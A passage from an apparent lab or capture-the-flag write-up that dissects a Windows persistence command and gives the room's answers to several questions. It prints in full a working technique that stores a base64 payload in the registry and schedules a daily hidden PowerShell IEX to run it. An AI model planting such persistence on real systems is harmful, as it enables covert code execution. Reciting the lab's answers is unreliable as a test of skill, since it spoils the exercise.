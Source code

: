 * `HKCU\SOFTWARE\ATOMIC-T1053.005` oath to the registry key in the current user hive 

* `/v test` The name of the value being created 

* `/t REG_SZ` Type = string 

* `/d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=` base64 encoded for `ping www.youarevulnerable.thm`

* `/f` Force overwrite if the value already exists 

* `&` Executes the next command after the registry value is created 

* `schtasks.exe` Windows built in utility to manage scheduled tasks

* `/Create` Creating a new task

* `/F` Force overwrite if a task with this name exists

* `/TN "ATOMIC-T1053.005"` Task name is `ATOMIC-T1053.005`

* `cmd /c` Again, run and exit

* `start /min ""` Start a new minimized window, with an empty string as the name

* `powershell.exe -Command` Run PowerShell with the following command

* `Get-ItemProperty ... .test` Reads the test value from the registry 

* `FromBase64String(...)` Decodes the value (base64 -> ASCII)

* `IEX(...)` Invoke-Expression, executes the decoded command as PowerShell code

* `/sc daily` Run daily 

* `/st 12:34` Start time is 12:34 PM

Wow that was a lot! But now we can see that this command is definetly malicious. It adds a base64 encoded payload to the registry, and creates a scheduled task to run the decoded payload daily in a minimized window. The decoded payload pings "www[.]youarevulnerable[.]thm" at 12:34 PM.

The answer to question number two is: 

`"cmd.exe" /c "reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN "ATOMIC-T1053.005" /TR "cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\SOFTWARE\\ATOMIC-T1053.005).test)))" /sc daily /st 12:34"`

I got a little carried away, we've actually found the answer to the next two questions as well.

#### Question 3

3. What time is the scheduled task meant to run?
   
   `12:34`

#### Question 4

4. What was encoded?
   
   `ping www.youarevulnerable.thm`

#### Question 5
